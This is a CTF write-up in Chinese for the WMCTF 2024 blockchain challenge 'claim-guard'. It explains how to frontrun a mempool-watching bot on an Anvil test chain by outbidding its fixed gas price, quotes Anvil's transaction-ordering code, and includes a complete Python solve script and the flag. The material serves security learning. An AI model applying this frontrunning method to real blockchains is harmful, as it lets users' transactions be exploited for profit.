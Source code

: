 ```yaml
---
title: Blockchain - claim-guard
description: 2024 | WMCTF | BlockChain
tags:
    - mev
    - frontrun
    - rust
    - transaction order
---
```


## 题目

We got a cheater.

> nc claim-guard.wm-team.cn 1337

[:material-download: `claim_guard.zip`](static/claim_guard.zip)

## 解题思路

- 合约 `Chall` 共有三个函数：`registerBlock()`、`proveWork()` 和 `claimLastWinner()`。题目要求 `player`，即给定的 EOA，成为 `lastWinner`。需要 `player` 在同一个块内依次调用三个函数并提供正确的工作证明
- `blockNonce` 记录每个区块中 `proveWork()` 成功执行的次数。只有第一个成功执行 `proveWork()` 的账户能够调用 `claimLastWinner()` 成为 `lastWinner`
- 题目环境中包含一个 bot，会在每个区块调用 `registerBlock()`，并监听 mempool。如果出现能够成功执行 `proveWork()` 的交易，bot 将使用更高的 gas price 试图抢跑对应交易

    ```rs
    // 0x27d4563e
    let sig: [u8; 4] = [0x27, 0xd4, 0x56, 0x3e];
    // concat sig and pow
    let mut data = Vec::with_capacity(4 + 32);
    data.extend_from_slice(&sig);
    data.extend_from_slice(pow.as_slice());
    let bytes = Bytes::from(data);
    let bn = finalized_block.header.number.unwrap();
    let nonce = *self.nonce_map.get(&bn).unwrap();
    let effective_gas_price = tx.gas_price.or(tx.max_fee_per_gas).unwrap_or_default();
    let chain_id = self.provider.get_chain_id().await.unwrap();
    let tx_receipt = TransactionRequest {
        from: Some(self.sender_addr),
        to: Some(TxKind::Call(self.chall_addr)),
        gas_price: Some(effective_gas_price * 2),
        gas: Some(100_0000),
        input: TransactionInput::new(bytes),
        chain_id: Some(chain_id),
        nonce: Some(nonce),

        ..Default::default()
    };
    ```

- 与 `proveWork()` 不同，bot 发送的 `registerBlock()` 交易的 gas price 是固定的

    ```rs
    // register the block
    let tx_receipt = TransactionRequest {
        from: Some(self.sender_addr),
        to: Some(TxKind::Call(self.chall_addr)),
        gas_price: Some(110000000000000000 / 100_0000),
        gas: Some(100_0000),
        chain_id: Some(self.provider.get_chain_id().await.unwrap()),
        nonce: Some(nonce),
        input: hex::decode("0xccac0007").unwrap().into(),
        ..Default::default()
    };
    ```

- Anvil 默认按照 gas price 从高到低对交易进行排序[^default]，同时需要保证每个账户的交易的 `nonce` 是有效的。在实现中采用对独立交易以 gas price 和 FIFO (ready ID) 优先排序的方式。其中，独立交易不依赖其它交易，即 `nonce` 有效可以立即执行。非独立交易将在前置交易执行后解锁并加入到独立交易集合中

    ??? note "TransactionsIterator"

        ```rs
        impl TransactionsIterator {
            /// Depending on number of satisfied requirements insert given ref
            /// either to awaiting set or to best set.
            fn independent_or_awaiting(&mut self, satisfied: usize, tx_ref: PoolTransactionRef) {
                if satisfied >= tx_ref.transaction.requires.len() {
                    // If we have satisfied all deps insert to best
                    self.independent.insert(tx_ref);
                } else {
                    // otherwise we're still awaiting for some deps
                    self.awaiting.insert(tx_ref.transaction.hash(), (satisfied, tx_ref));
                }
            }
        }

        impl Iterator for TransactionsIterator {
            type Item = Arc<PoolTransaction>;

            fn next(&mut self) -> Option<Self::Item> {
                loop {
                    let best = self.independent.iter().next_back()?.clone();
                    let best = self.independent.take(&best)?;
                    let hash = best.transaction.hash();

                    let ready =
                        if let Some(ready) = self.all.get(&hash).cloned() { ready } else { continue };

                    // Insert transactions that just got unlocked.
                    for hash in &ready.unlocks {
                        // first check local awaiting transactions
                        let res = if let Some((mut satisfied, tx_ref)) = self.awaiting.remove(hash) {
                            satisfied += 1;
                            Some((satisfied, tx_ref))
                            // then get from the pool
                        } else {
                            self.all
                                .get(hash)
                                .map(|next| (next.requires_offset + 1, next.transaction.clone()))
                        };
                        if let Some((satisfied, tx_ref)) = res {
                            self.independent_or_awaiting(satisfied, tx_ref)
                        }
                    }

                    return Some(best.transaction)
                }
            }
        }
        ```

    ```rs
    /// transactions that are ready to be included in a block.
    #[derive(Clone, Debug, Default)]
    pub struct ReadyTransactions {
        ...
        /// independent transactions that can be included directly and don't require other transactions
        /// Sorted by their id
        independent_transactions: BTreeSet<PoolTransactionRef>,
    }
    ...
    impl Ord for PoolTransactionRef {
        fn cmp(&self, other: &Self) -> Ordering {
            self.transaction
                .priority
                .cmp(&other.transaction.priority)
                .then_with(|| other.id.cmp(&self.id))
        }
    }
    ```

- 根据 `nonce` 和题目约束，`proveWork()` 只能在 `registerBlock()` 之后执行，因此只需要 `player` 以更高的 `gas_price` 抢跑 bot 的 `registerBlock()` 交易并完成 `proveWork()` 即可

### 解题脚本

```py
from web3 import Web3
from cheb3 import Connection
from cheb3.utils import encode_with_signature
import time, pwn

ticket = b"<ticket>"
HOST = "claim-guard.wm-team.cn"
PORT = 1337

p = pwn.remote(HOST, PORT)
p.sendlineafter(b"ticket", ticket)
p.sendlineafter(b"action?", b"1")
p.recvuntil(b"rpc endpoints")
rpc = p.recvline_contains(b"-").decode().split(" ")[-1]
conn = Connection(rpc)
priv = p.recvline_contains(b"private key").decode().split(" ")[-1]
account = conn.account(priv)
setup = p.recvline_contains(b"contract:").decode().split(" ")[-1]
p.close()

chall = conn.cast_call(setup, "chall()(address)")

pow = 0
bn = conn.w3.eth.get_block_number() + 2
while True:
    h = Web3.solidity_keccak(['uint256', 'uint256'], [pow, bn]).hex()
    if int(h, 16) >> 0xf0 == 0:
        print("Pow:", pow)
        break
    pow += 1
print("Waiting for block", bn)
current_bn = conn.w3.eth.get_block_number() + 1
while bn > current_bn:
    time.sleep(0.5)
    current_bn = conn.w3.eth.get_block_number() + 1
    print("Current block", current_bn)
if bn == current_bn:
    nonce = conn.w3.eth.get_transaction_count(account.address)
    account.send_transaction(chall, data=encode_with_signature("registerBlock()"), wait_for_receipt=False, gas_limit=300000, gas_price=110000000010)
    account.send_transaction(chall, data=encode_with_signature("proveWork(bytes32)", bytes.fromhex(f"{pow:064x}")), nonce=nonce + 1, wait_for_receipt=False, gas_limit=300000, gas_price=110000000010)
    try:
        account.send_transaction(chall, data=encode_with_signature("claimLastWinner(address)", account.address), nonce=nonce + 2, gas_limit=300000)
    except Exception as e:
        print(e)
    lastWinner = conn.cast_call(chall, "lastWinner()(address)")
    print("Player:", account.address)
    print("lastWinner:", lastWinner)
    if account.address == lastWinner:
        p = pwn.remote(HOST, PORT)
        p.sendlineafter(b"ticket", ticket)
        p.sendlineafter(b"action?", b"3")
        p.interactive()
```

### Flag

> WMCTF{is_m3v_this_ea5y}

[^default]: [foundry-rs / foundry](https://github.com/foundry-rs/foundry/blob/master/crates/anvil/src/eth/pool/transactions.rs#L46)
